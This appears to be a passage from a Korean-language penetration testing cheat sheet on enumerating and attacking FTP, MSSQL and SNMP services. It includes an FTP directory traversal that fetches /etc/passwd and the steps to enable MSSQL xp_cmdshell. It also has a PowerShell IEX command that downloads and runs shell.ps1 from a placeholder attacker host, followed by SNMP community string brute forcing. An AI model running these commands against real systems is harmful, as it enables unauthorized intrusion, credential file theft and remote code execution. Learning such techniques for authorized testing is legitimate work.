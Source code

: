 #### 🔵 실제 사례: 디렉토리 순회 취약점

```bash
# FTP에서 디렉토리 순회
ftp> cd ../../../etc
ftp> get passwd
```

### 5. **MSSQL (1433) - 심층 탐색**

#### 🔵 기본 열거

```bash
# 포트 상태 확인
nmap -p 1433 --script ms-sql-info TARGET_IP

# 연결 테스트
sqsh -S TARGET_IP -U sa
```

#### 🔵 고급 MSSQL 이용

- **xp_cmdshell 실행 권한 확인**:
  ```sql
  EXEC master..xp_cmdshell 'whoami'
  ```
- **계정 권한 상승**:
  ```sql
  SELECT is_srvrolemember('sysadmin')
  ```

#### 🔵 실제 사례: xp_cmdshell을 통한 RCE

```sql
-- xp_cmdshell 활성화
EXEC sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
EXEC sp_configure 'xp_cmdshell', 1
GO
RECONFIGURE
GO

-- 명령어 실행
EXEC master..xp_cmdshell 'powershell -c "IEX(New-Object Net.WebClient).downloadString(''http://YOUR_IP/shell.ps1'')"'
```

### 6. **SNMP (161/UDP) - 눈에 띄지 않는 보물창고**

#### 🔵 커뮤니티 문자열 테스트

```bash
# 기본 커뮤니티 문자열 확인
onesixtyone -c /usr/share/doc/onesixtyone/dict.txt TARGET_IP

# MIB 트리 열거
snmpwalk -v1 -c public TARGET_IP
```
